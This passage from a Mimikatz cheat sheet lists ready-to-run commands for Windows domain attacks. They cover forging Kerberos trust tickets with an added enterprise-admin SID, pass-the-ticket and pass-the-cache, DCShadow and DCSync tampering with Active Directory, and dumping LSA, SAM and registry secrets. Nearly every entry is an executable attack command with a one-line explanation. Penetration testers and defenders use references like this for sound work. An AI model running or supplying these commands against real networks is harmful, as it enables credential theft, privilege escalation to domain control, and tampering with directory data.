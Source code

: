 - Command: Similar to Golden Ticket but for trust relationships.
- Parameters:
  - `/target`: The target domain's FQDN.
  - `/rc4`: The NTLM hash for the trust account.

Example:

```bash
mimikatz "kerberos::golden /domain:child.example.com /sid:S-1-5-21-123456789-123456789-123456789 /sids:S-1-5-21-987654321-987654321-987654321-519 /rc4:ntlmhash /user:admin /service:krbtgt /target:parent.example.com /ptt" exit
```

### Additional Kerberos Commands

- **Listing Tickets**:
  - Command: `kerberos::list`
  - Lists all Kerberos tickets for the current user session.

- **Pass the Cache**:
  - Command: `kerberos::ptc`
  - Injects Kerberos tickets from cache files.
  - Example: `mimikatz "kerberos::ptc /ticket:ticket.kirbi" exit`

- **Pass the Ticket**:
  - Command: `kerberos::ptt`
  - Allows using a Kerberos ticket in another session.
  - Example: `mimikatz "kerberos::ptt /ticket:ticket.kirbi" exit`

- **Purge Tickets**:
  - Command: `kerberos::purge`
  - Clears all Kerberos tickets from the session.
  - Useful before using ticket manipulation commands to avoid conflicts.


### Active Directory Tampering

- **DCShadow**: Temporarily make a machine act as a DC for AD object manipulation.
  - `mimikatz "lsadump::dcshadow /object:targetObject /attribute:attributeName /value:newValue" exit`

- **DCSync**: Mimic a DC to request password data.
  - `mimikatz "lsadump::dcsync /user:targetUser /domain:targetDomain" exit`

### Credential Access

- **LSADUMP::LSA**: Extract credentials from LSA.
  - `mimikatz "lsadump::lsa /inject" exit`

- **LSADUMP::NetSync**: Impersonate a DC using a computer account's password data.
  - *No specific command provided for NetSync in original context.*

- **LSADUMP::SAM**: Access local SAM database.
  - `mimikatz "lsadump::sam" exit`

- **LSADUMP::Secrets**: Decrypt secrets stored in the registry.
  - `mimikatz "lsadump::secrets" exit`
